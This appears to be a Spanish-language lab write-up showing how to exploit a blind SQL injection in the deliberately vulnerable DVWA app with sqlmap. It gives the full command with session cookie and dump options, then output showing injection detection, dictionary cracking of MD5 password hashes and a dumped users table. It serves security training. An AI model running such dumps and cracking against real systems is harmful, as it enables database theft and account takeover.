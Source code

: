```yaml
---
title: DVWA 
date: 2025-04-2 17:00:00 +0200
categories: [hacking, sqli] 
tags: [dvwa, sqli, sqlmap]     # TAG names should always be lowercase

image:
    path: https://github.com/digininja/DVWA/blob/master/dvwa/images/logo.png?raw=true
    alt: DVWA
---
```


## DVWA 

>Damn Vulnerable Web Application (DVWA) es una aplicación web PHP/MariaDB extremadamente vulnerable. Su objetivo principal es ayudar a los profesionales de la seguridad a poner a prueba sus habilidades y herramientas en un entorno legal, ayudar a los desarrolladores web a comprender mejor los procesos de seguridad de aplicaciones web y ayudar tanto a estudiantes como a profesores a aprender sobre seguridad de aplicaciones web en un entorno de clase controlado.

Más info sobre DVWA en [Hacktools/#vulnerable-machines](../hacktools/#vulnerable-machines)
Ahora vamos a realizar un ejemplo de injección sql_blind con la herramienta **sqlmap**, para que todo sea automático he puesto el flag __--batch__
Para el ejercicio he montado el docker con el archivo docker del proyecto de DVWA. 

``` shell
pablo☠office sqlmap$ ./sqlmap.py --url "http://192.168.2.125:8090/vulnerabilities/sqli_blind?id=1&Submit=Submit"  --cookie="PHPSESSID=fl7f8c1lva3pup4adt7djg46q1;security=low" --data="id=1&Submit=Submit" -p id  --risk 3 --level 5 --dump --batch
```
La seguridad está en "low" y la cookie podemos copiarla del navegador. 
Al parecer el parámetro id supone una entrada no sanitizada y permite este tipo de inyección SQL que un adversario
puede utilizar para extraer los datos de la base de datos.
sqlmap incluye una opción que le permite identificar y crackear passwords en md5 e incluye su propio diccionario.

Aquí es cuando Sqlmap [Hacktools/#sql-injection](../Hacktools/#sql-injection-1)(descubre que el parámetro id parece inyectable usando la técnica de __boolean-based blind__ 
``` shell
[21:49:58] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:49:58] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="User ID exists in the database.")
[21:49:59] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```

El proceso continua e incluso se consiguen las passwords de los usuarios. 
``` shell
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[21:51:04] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/home/pablo/pentest/web/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[21:51:04] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[21:51:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[21:51:04] [INFO] starting 4 processes 
[21:51:07] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'                                                                                                                           
[21:51:09] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'                                                                                                                          
[21:51:13] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'                                                                                                                          
[21:51:14] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'                                                                                                                         
Database: dvwa                                                                                                                                                                                                    
Table: users
[5 entries]
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                                    | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 2025-04-02 18:20:58 | 0            |
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 2025-04-02 18:20:58 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 2025-04-02 18:20:58 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 2025-04-02 18:20:58 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 2025-04-02 18:20:58 | 0            |
+---------+---------+-----------------------------+---------------------------------------------+-----------+------------+---------------------+--------------+

[21:51:20] [INFO] table 'dvwa.users' dumped to CSV file '/home/pablo/.local/share/sqlmap/output/192.168.2.125/dump/dvwa/users.csv'

```

Pues ya estaría. Te has pasado el ejercicio con un solo comando. Happy hacking!!!.